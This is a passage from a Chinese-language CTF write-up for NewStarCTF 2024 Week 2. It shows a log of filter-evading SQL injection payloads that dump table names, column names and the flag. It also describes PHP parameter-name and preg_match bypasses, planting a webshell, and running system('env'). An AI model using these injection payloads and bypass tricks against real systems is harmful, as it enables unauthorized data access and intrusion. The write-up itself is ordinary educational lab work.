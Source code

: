 ``` log
-1"/**/union/**/select/**/1,group_concat(TABLE_NAME)/**/FROM/**/information_schema.tables/**/WHERE/**/TABLE_SCHEMA=database()/**/&&"1


Name: "1"
Position: "Fl4g"

-1"/**/union/**/select/**/1,group_concat(column_name)/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='Fl4g'&&"1

Name: "1"
Position: "id,des,value"


-1"/**/union/**/select/**/1,group_concat(id,des,value)/**/FROM/**/Fl4g/**/WHERE/**/1/**/&&"1

Name: "1"
Position: "5555Y0u are the master 0f bypass1ngflag{23d24149-6b10-4cbe-8d91-0c6322617e40}"
```

## pangbai2

![屏幕截图 2024-10-05 215651](NewStarCTF 2024 Week2 WriteUp/屏幕截图 2024-10-05 215651.png)

用githack把git文本下下来，用git log 和 git diff 发现好像找不到什么东西。

然后用 git stash 从而获得了backdoor的php

进行代码审计。

如何越过第二个呢？

首先是 其实php对点号的解析。只要加上一个 `[` 这个就会被解析成 `_` 后面的因为此处error但是忽略错误于是后面的就正常读入了。还有大小写，用 `%4E` 替代 `N` 即可。

对于pregmatch怎么越过呢 其实在文末加上 `\n` 会忽略的！

于是得到图中的get传参。

不过搜索了一遍没有发现文件（甚至种了个马）

最后浏览器搜了一遍发现 有可能在环境变量，于是 `system('env')` 解决。（骂骂咧咧）

## 复读机

模板注入。

![屏幕截图 2024-10-04 010441](NewStarCTF 2024 Week2 WriteUp/屏幕截图 2024-10-04 010441.png)

但是丢了这部分的怎么写的了= =真服了。

简而言之的就是绕过绕过绕过。

# End

蛮有趣的呢！忙完Pre和英语作文再开始Week3的旅途吧。